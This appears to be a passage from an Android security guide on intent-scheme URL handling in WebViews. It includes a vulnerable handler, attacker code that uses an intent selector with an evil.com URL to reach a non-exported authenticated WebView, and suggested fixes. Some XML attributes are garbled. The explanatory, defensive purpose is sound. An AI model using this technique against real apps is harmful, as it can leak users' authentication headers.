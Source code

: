 ```
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if("intent".equals(uri.getScheme())) {
    	Intent intent = Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME);
    	intent.addCategory("android.intent.category.BROWSABLE");
    	intent.setComponent(null);
        startActivity(intent);
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}


```

The attacker can specify a non-exported component via a selector

```
Intent intent = new Intent();
intent.setSelector(new Intent().setClassName("com.victim", "com.victim.AuthWebViewActivity"));
intent.putExtra("url", "http://evil.com/");
Log.d("evil", intent.toUri(Intent.URI_INTENT_SCHEME)); // "intent:#Intent;S.url=http%3A%2F%2Fevil.com%2F;SEL;component=com.victim/.AuthWebViewActivity;end"


```

And bypass the app’s protection against explicit intents. We therefore recommend filtering the selector as well

```
intent.addCategory("android.intent.category.BROWSABLE");
intent.setComponent(null);
intent.setSelector(null);


```

But even complete filtering does not guarantee complete protection, because an attacker can create an implicit intent corresponding to the `intent-filter` of some non-exported activity. Example of an activity declaration:

```
<activity android:>
    <intent-filter>
        <action android: />
        <category android: />
        <data android:scheme="victim" android:host="secure_handler" />
    </intent-filter>
</activity>


```

```
webView.loadUrl(getIntent().getData().getQueryParameter("url"), getAuthHeaders());


```
